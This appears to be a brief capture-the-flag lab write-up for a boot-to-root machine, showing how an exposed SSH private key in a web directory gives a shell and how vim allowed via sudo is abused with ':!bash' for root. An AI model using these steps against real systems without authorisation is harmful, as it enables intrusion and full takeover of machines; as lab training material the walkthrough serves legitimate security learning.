 # Task-16: Under Construction

the goal is to exploit a **boot-to-root** machine and gain initial access then privilege escalate. 

## Enumeration
Ports found: 80, 22

Hidden directories discovered:
- /assets
- /keys

Found an SSH private key under the `/keys` directory.

## Getting a Shell

Used the discovered private key to identify the username and establish an SSH session:

```bash
ssh -i id_rsa dev@<IP>
```

## Privilege Escalation

Referred to this blog for escalation techniques:

https://www.strongdm.com/blog/linux-privilege-escalation

Used Misconfigured Sudo Rights to check what commands the current user can run as root:
```bash
sudo -l
```

Discovered that the user has permission to run the Vim editor as root:
```bash
sudo vim
```

Escalated privileges to root by executing a shell from within Vim:

```vi
:!bash
```
Successfully obtained a root shell
